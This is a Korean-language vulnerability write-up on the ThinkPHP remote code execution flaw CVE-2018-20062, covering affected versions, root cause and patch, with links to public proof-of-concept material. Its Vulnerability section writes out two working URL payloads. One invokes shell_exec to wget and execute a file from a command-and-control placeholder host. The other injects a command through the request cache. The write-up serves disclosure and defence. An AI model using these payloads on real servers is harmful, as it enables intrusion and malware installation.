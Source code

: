 ﻿ThinkPHP RCE 취약점
==========
Information
-----
* CVE-2018-20062
* 해당 소프트웨어 : ThinkPHP
* 해당 버젼 : Under ThinkPHP 5.0.23 or 5.1.31
*  취약점 유형 : RCE

Description
---

해당 취약점은 ThinkPHP를 사용하는 웹 프레임워크에서의 RCE 취약점으로, 
index.php 페이지의 URL을 통해 전달받은 값을 검증 없이 파싱하여 응용프로그램 클래스를 직접 호출하여 원격 코드 명령을 실행 가능하게 하는 취약점이다. 

Root Cause
---
### ThinkPHP
ThinkPHP는 중국 기업 TopThink에서 개발한 php 기반의 웹 어플리에키션 프레임워크다. Apache2 기반으로 만들어졌으며, URL 쿼리 매개 변수를 분석하여 모듈과 컨트롤러를 검색한다. 

현재 쇼단 검색으로 3만 5천 개 이상의 활성 배치가 표시되고 있다. 

### Vulnerability
ThinkPHP는 URL 쿼리 parameter를 파싱하여 모듈이나 컨트롤러, 함수등을 검색하는데 이때 
URL에서 컨트롤러 클래스명의 유효성이 검증되지 않아 RCE 취약점이 발생한다. 

- Payload example 
1. 컨트롤러 클래스 app 을 통한 원격명령실행 
/index.php?s=/index\think\app/invokefunction&function=call_user_func_array&vars[0]=shell_exec
&vars[1][]=cd%20/tmp;wget%20http://(C&C_IP)//(실행시킬 파일);
chmod(권한 및 실행시킬 파일)

    + ThinkPHP의 경우 '/' 기준으로 파싱을 진행하므로 '\\'를 이용할 경우 think 내에 컨트롤러 클래스 app을 생성하여 invokefunction 메소드를 통해 RCE 가능 

2. 컨트롤러 클래스 request를 통한 RCE
?s=index/\think\request/cache&key=1|id

	+ request 컨트롤러 클래스를 통해서 RCE  가능 


Patch
---
기본적으로 5.0.23 or 5.1.31로 업데이트 하면 해결되며 해당 패치들을 통해 컨트롤러 이름을 확인하는 정규식이 추가되었다. 

POC
---
공개된 PoC는 아래와 같다. 
![이미지](https://github.com/develacker/dayone/blob/master/linux/ThinkPHP/poc1.png)
![이미지](https://github.com/develacker/dayone/blob/master/linux/ThinkPHP/poc2.png)
![이미지](https://github.com/develacker/dayone/blob/master/linux/ThinkPHP/poc3.png)
![이미지](https://github.com/develacker/dayone/blob/master/linux/ThinkPHP/poc4.png)

References
---
[1] [PoC - NS-Sp4ce](https://github.com/NS-Sp4ce/thinkphp5.XRce/blob/master/thinkphp5.0rce.py)

[2] [THNKPHP REMOTE CODE EXECUTION BUG IS ACTIVELY BEING EXPLOITED](https://securitynews.sonicwall.com/xmlpost/thinkphp-remote-code-execution-rce-bug-is-actively-being-exploited/)

[3] [ThinkPHP 5.x Remote Code Execution Vulnerability](https://devcentral.f5.com/s/articles/thinkphp-5x-remote-code-execution-vulnerability-32902)




